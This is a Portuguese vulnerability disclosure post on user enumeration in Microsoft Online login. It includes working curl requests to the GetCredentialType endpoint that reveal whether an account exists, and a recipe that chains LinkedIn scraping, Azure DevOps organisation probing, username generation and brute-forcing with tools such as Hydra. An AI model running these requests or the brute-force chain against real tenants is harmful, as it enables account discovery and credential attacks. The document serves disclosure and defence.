


Divulgação de Vulnerabilidade: Enumeração de Usuários no Serviço de Autenticação Microsoft Online
Data da publicação: 00/00/00 11:21
🇧🇷 | 🇺🇸
Introdução
Este documento visa descrever a vulnerabilidade de enumeração de usuários descoberta na autenticação Microsoft Online, passivo de exploração de forma visual e programática, em qualquer aplicação que se integre ao serviço.
Exploração
O vetor de ataque provém tanto da observação do comportamento das mensagens de retorno (visual), quanto pela estrutra de resposta do endpoint respectivo (programático).
Requisitos
Embora a vulnerabilidade esteja no serviço de autenticação Microsoft Online, os passos a seguir visa a exploração de forma
breve, e em ambiente controlado e seguro, simulando a integração da aplicação fictícia minha-app-com.
- Acesse o portal Azure AD (Microsoft Entra ID) e registre uma nova aplicação através do App Registration;
- Escolha o método Access Token;
- Conceda as permissões
emaileUser.Readpor meio do Microsoft Graph.
Após o registro, obtemos - dentre outros valores omitidos por brevidade - o parâmetro appId, usado na construção
da url que redirecionará de, minha-app.com para login.microsofonline.com, onde a autenticação ocorrerá:
https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize
Devemos incluir também os parâmetros clientId e code, obtidos durante o fluxo do backend da minha-app.com:
?client_id={clientId}&response_type=code&code_challenge={code}
Por fim, completamos com os parâmetros fixos:
&code_challenge_method=S256
&redirect_uri=https://minha-aplicacao/successo
&scope=https://graph.microsoft.com/email
&prompt=select_account
&sso_reload=true
No conjunto final, a url a ser usada pela minha-app.com será:
https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize?client_id={clientId}&response_type=code&code_challenge={code}&code_challenge_method=S256&redirect_uri=https://minha-app.com/success&scope=https://graph.microsoft.com/email&prompt=select_account&sso_reload=true
Metodologia Visual
A url irá te levar até o serviço de autenticação da aplicação (appId), personalizado para o inquilino solicitante (clientId),
o qual exigirá as credenciais de acesso. A partir da análise no padrão de resposta, é possível determinar quando o usuário existe ou não.
| Tela inicial | Informo dados inválidos | Serviço confirma | Domínio correto, a mensagem muda | Usuário correto, é solicitado a senha |
|---|---|---|---|---|
 |
 |
 |  |  |
Metodologia Programática
Inspecionando o código-fonte do serviço login.microsoftonline.com, e analisando os pacotes enviados pela rede, encontramos
o endpoint GetCredentialType. Ao extrair o corpo da requisição, obtemos:
curl --location 'https://login.microsoftonline.com/common/GetCredentialType?mkt=pt-BR' \
--header 'accept: application/json' \
--header 'accept-language: pt-BR,pt;q=0.7' \
--header 'canary: {canaryHash}' \
--header 'client-request-id: {requestGuid}' \
--header 'content-type: application/json; charset=UTF-8' \
--header 'cookie: brcap=0; ESTSSSOTILES=1; AADSSOTILES=1; x-ms-gateway-slice=estsfd; stsservicecookie=estsfd; AADSSO=NA|NoExtension; ESTSAUTHLIGHT=+58498593-a7a2-422b-84bd-ef0fb1c85b0d; CCState={cstateHash}' \
--header 'hpgact: 1800' \
--header 'hpgid: 1104' \
--header 'hpgrequestid: {hpgRequestGuid}' \
--header 'origin: https://login.microsoftonline.com' \
--header 'priority: u=1, i' \
--header 'referer: https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize?client_id={clientId}&response_type=code&code_challenge={code}&code_challenge_method=S256&redirect_uri=https://minha-app.com/successo&scope=https://graph.microsoft.com/email&prompt=select_account&sso_reload=true
--header 'sec-ch-ua: "Brave";v="125", "Chromium";v="125", "Not.A/Brand";v="24"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "Windows"' \
--header 'sec-fetch-dest: empty' \
--header 'sec-fetch-mode: cors' \
--header 'sec-fetch-site: same-origin' \
--header 'sec-gpc: 1' \
--header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
--data-raw '{"username":"abacate@avocado.com.br","isOtherIdpSupported":true,"checkPhones":false,"isRemoteNGCSupported":true,"isCookieBannerShown":false,"isFidoSupported":true,"originalRequest":"{originalRequestHash}","country":"BR","forceotclogin":false,"isExternalFederationDisallowed":false,"isRemoteConnectSupported":false,"federationFlags":0,"isSignup":false,"flowToken":"{flowToken}","isAccessPassSupported":true}'
Embora o conjunto de cabeçalhos e parâmetros sejam elevados, sugerindo tratamento seguro quanto ao envio ou origem, nada é
de fato feito com requestGuid, cstateHash, hpgRequestGuid, originalRequestHash ou flowToken. Considerando que
não há verificação ou consistência do objeto, quanto a sua manipulação, podemos removê-los:
curl --location 'https://login.microsoftonline.com/common/GetCredentialType?mkt=pt-BR' \
--header 'Content-Type: application/json' \
--header 'Cookie: fpc=Avu1jfhsb2hEhMRueZ1yZ9Q; stsservicecookie=estsfd; x-ms-gateway-slice=estsfd' \
--data-raw '{
"username": "abacate@avocado.com.br"
}'
Independente de qual formato acima você use, ambos irão retornar a seguinte estrutura:
{
"Username": "",
"Display": "",
"IfExistsResult": 0,
"IsUnmanaged": false,
"ThrottleStatus": 0,
"Credentials": {},
"DfpProperties": {},
"EstsProperties": {},
"IsSignupDisallowed": false,
"apiCanary": ""
}
Os campos IfExistisResult e ThrottleStatus respectivamente determinam se o usuário existe e o estado do controle do recurso.
Essa afirmação é possível por meio da seguinte observação de comportamento:
- Se usuário e domínio não existem,
IfExistisResulteThrottleStatusserão1; - Se usuário não existir, mas o domínio existir,
IfExistisResultserá1eThrottleStatusserá0; - Se usuário e domínio existem,
IfExistisResulteThrottleStatusserão0;
Com isso, verificamos pela segunda vez que é possível identificar usuários através do serviço.
Obs: há outras mudanças no json que colaboram com a identificação, mas foram otimidas por brevidade.
Metodologia Expandida
Considerando que o serviço Azure DevOps também usa o Microsoft Online, e sua url é acessível através de https://dev.azure.com/{nomeDaOrganizacao},
é possível escalar a descoberta por meio de um web scrapping numa rede social, como o LinkedIn, a fim de obter o nome
principal de cada empresa.
Com a lista pronta, automatiza-se a descoberta até obter um HttpStatus 200:
https://dev.azure.com/mcdonalds
https://dev.azure.com/samsung
https://dev.azure.com/ibm
https://dev.azure.com/suaempresa
...
https://dev.azure.com/microsoft
Definido o alvo, basta aplicar qualquer uma das metodologias descritas neste documento:
| Usuário não existe no domínio | Usuário existe e me é solicitado a senha |
|---|---|
 |
 |
Além de nomes óbvios como o demonstrado acima (admin, infra, rh, contato...), podemos fazer outro web scrapping no LinkedIn, desta vez focado nos funcionários da empresa alvo. A partir de nomes e sobrenomes, geramos todas as combinações (incluindo hífen, underscore ou ponto) através de ferramentas como o Crunch. Com a massa de dados pronta, deixamos a força bruta fazer o resto por meio de softwares como John the Ripper, Hydra ou Hashcat.
O usuário que não tiver um 2º fator de segurança, e faz uso de senha fraca, fatalmente estará sujeito a ter sua credencial quebrada.
Impacto
Esta informação, aparentemente inofensiva, pode afetar de forma significativa a segurança da organização, já que a exposição de credenciais de acesso contribuem para o aumento e eficácia de ataques subsequentes, como phishing, engenharia social e força bruta.
Phishing
Ataque que tenta roubar seu dinheiro ou a sua identidade fazendo com que você revele informações pessoais, tais como números de cartão de crédito, informações bancárias ou senhas em sites que fingem ser legítimos. Criminosos cibernéticos normalmente fingem ser empresas confiáveis, amigos ou pessoas conhecidas em uma mensagem de email falsa, que contém um link para um site de "phishing" (pescar). (Fonte: Suporte Microsoft).
Um subconjunto dessa prática é o spear phishing (pescar com lança), que trata da especialização do ataque, onde os invasores realizam pesquisas extensas sobre os alvos pretendidos. Essa alta personalização visa não só indivíduos, como empresas específicas, ocasionando fraudes financeiras, manipulação de preços de ações, espionagem ou roubo de dados confidenciais para revenda. Podem ser projetados também para infectar dispositivos com malware. (Fonte: Kaspersky Resource Center)
Engenharia Social
Os ataques de engenharia social manipulam as emoções e os instintos das pessoas de maneiras que comprovadamente a levam a compartilhar informações que não deveriam compartilhar, baixar software que não deveriam baixar, visitar sites que não deveriam visitar, enviar dinheiro para criminosos ou cometer outros erros que comprometam sua segurança pessoal ou organizacional. (Fonte: IBM Think).
Além dos já citados phishing e spear phishing, temos o baiting (iscar pela curiosidade), tailgating (carona no dispositivo desbloqueado), pretexting (o falso samaritano digital), Quid pro quo (serviços desejáveis, porém falsos, em troca da informação), scareware (manipular pelo medo) e watering hole (um serviço real é infectado).
Força bruta
Um ataque de força bruta usa o método de tentativa e erro para adivinhar informações de login ou chaves de criptografia. Invasores trabalham com todas as combinações possíveis na esperança de acertar.(Fonte: Kaspersky Resource Center)
Um subtipo dessa forma de ataque é conhecido como Password Spraying (pulverização de senhas), que consiste na tentativa exaustiva de usar a mesma senha em diversas contas antes de tentar outra. Ataques de pulverização de senhas costumam ser efetivos, porque muitos usuários, além de usarem as mesmas senhas em diferentes serviços, em geral são de simples memorização e fáceis de adivinhar. [Fonte: Kaspersky Resource Center]
Embora pareça como procurar "agulha num palheiro", o avanço da inteligência artificial (IA) e modelos de linguagem de larga escala (LLM) otimizam, aceleram, escalam, dão bypass em captcha e ajustam frequência no ataque sem necessidade do fator humano.
O único local onde há o fator humano, é na concepção de senha. O quadro abaixo destaca as mais utilizadas no Brasil, no ano de 2023:
| Posição | Senha | Ocorrências |
|---|---|---|
| 1º | admin | 204.846 |
| 2º | 123456 | 137.551 |
| 3º | 12345678 | 46.666 |
| 4º | 102030 | 28.034 |
| 5º | 123456789 | 24.834 |
| 7º | gvt12345 | 10.684 |
| 9º | password | 8687 |
| 11º | 123mudar | 8202 |
| 15º | fera@123 | 6364 |
| 20º | Senha | 4762 |
Fonte: Nordpass
Você pode ver maiores detalhes sobre o quão rápido uma senha pode ser descoberta, neste artigo do Hive System.

Mitigação
Para mitigar a vulnerabilidade de enumeração de usuários, é essencial implementar medidas de segurança robustas que dificultem sua exploração, como:
Uniformização das mensagens de erro: assegurar que todas as mensagens de erro durante o processo de autenticação sejam uniformes, não fornecendo pistas sobre a validade dos nomes de usuários. O mesmo vale para tempo de resposta da requisição.
Limitação de tentativas de login: implemente uma política de limitação de tentativas de autenticação. Após um número predefinido de tentativas falhas, bloqueie temporariamente a conta ou exija um tempo de espera.
Monitoramento e log de acessos: configure o monitoramento e auditoria de todas as tentativas de autenticação. Analise esses logs regularmente para identificar padrões de ataques de enumeração.
Utilização de captchas: adicione CAPTCHAs no processo de autenticação para dificultar a automação de ataques de enumeração.
Verificações contra adulteração: avaliações robustas na requisição devem garantir que o evento não possa ser explorado.
Relevância
Políticas robustas de controle de acesso, como multifator ou zero trust, limitam o acesso dos cibercriminosos, mas a falta de respostas uniformes durante este acesso, abre caminho para a vulnerabilidade de enumeração de usuários, cujo risco é reconhecido por várias organizações de segurança.
OWASP (Open Web Application Security Project): frequentemente mencionada no OWASP Top 10 e citado nas diretrizes do Authentication Cheat Sheet, está presente também nas categorias:
NIST (National Institute of Standards and Technology): a prática é abordada pelo NIST SP 800-63B: Digital Identity Guidelines, tópico 8: "Threats and Security Considerations".
ISO (International Organization for Standardization): embora não mencione especificamente a enumeração de usuários, as diretrizes de segurança da ISO/IEC 27001 e ISO/IEC 27034 ressaltam, respectivamente, a importância de proteger informações de autenticação e adoção de práticas seguras de desenvolvimento.
SEI CERT (Software Engineering Institute CERT): o SEI CERT Coding Standards fornece 10 práticas de codificação segura para evitar diversas vulnerabilidades. Dentre elas, podemos destacar o item 8: "Practice defense in depth", cuja orientação é assegurar mais de uma camada de proteção, combinando técnicas para reduzir as lacunas de segurança.
CVE (Common Vulnerabilities and Exposures): além de sua definição base CWE-200: Exposure of Sensitive Information to an Unauthorized Actor, muitos serviços e softwares conhecidos, como WordPress, OpenSSH e GitLab já marcaram presença. Múltiplas entradas de enumeração de usuários são regularmente catalogadas no banco de dados da CVE.
NVD (National Vulnerability Database): enriquece uma CVE e expande detalhes com referências técnicas, análise de impacto, orientações de remediação e classificações de risco (CVSS).
Relato
A descoberta foi devidamente relatada ao Microsoft Security Response Center (MSRC), via Microsoft Bug Bounty Program, seguindo as diretrizes de divulgação responsável em conformidade com as diretrizes da ISO/IEC 29147:2018 e do CERT Guide to Coordinated Vulnerability Disclosure, visando garantir a mitigação adequada e a proteção de possíveis usuários afetados. Dado que o evento não foi considerado uma vulnerabilidade, torno público o cenário com o intuito de alinhar entendimento sobre quais contextos a vulnerabilidade aqui citada, deve ser considerada um risco.
Identificação
- Identificador: microsoft_bounty_1¹ (external tracking ID)
- Categoria: Enumeração de Usuários
- Gravidade: 8.8/Alta
- CVSS:
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N
¹ dado que o item não foi considerado uma ameaça (mesmo tendo sido comunicado por duas vezes), nenhum código CVE foi atribuído.
Linha do Tempo
- Data da descoberta: 26 de Abril de 2024
- Data da notificação ao MSRC: 27 de Abril de 2024
- Data da análise pelo MSRC: 29 de Junho de 2024
- Data da conclusão pelo MSRC¹: 12 de Junho de 2024
Resposta Obtida
MSRC Email communication 12 de jun. de 2024, 22:31
Subject: RE: MSRC Case microsoft_bounty_1
Hello Raphael,
Thank you for submitting this issue to Microsoft. We appreciate the time taken to submit this report. Upon investigation, we have determined that this is not considered a security vulnerability for servicing.
Please refer https://learn.microsoft.com/en-us/entra/fundamentals/users-default-permissions#restrict-member-users-default-permissions
As such this case is now closed.
Thank you for working with us and we look forward to more reports from you in the future!
Warm regards,
MSRC
O link referido fala sobre permissões de acesso entre usuários autenticados e visitantes, com o intuito de restrição. Contudo, não se aplica ao que foi demonstrado neste documento, uma vez que é possível explorar a vulnerabilidade livremente.
Referências
Conclusão
A descoberta desta vulnerabilidade no serviço de autenticação do Microsoft Online ressalta a importância contínua de revisões de segurança e conformidade com padrões internacionais. No entanto, ao não considerar uma falha, levanta-se a questão sobre quando a vulnerabilidade deve ser tratada como um risco ou não.
Empresas de segurança, que aplicam testes de penetração, como Tracker, Desec, HackerSec, Ravel, Kaspersky, Tempest, e-Security, Vantico ou Tivit, guiam-se pelos padrões de mercado, logo, a autenticação Microsoft Online também deveria estar sujeito ao mesmo.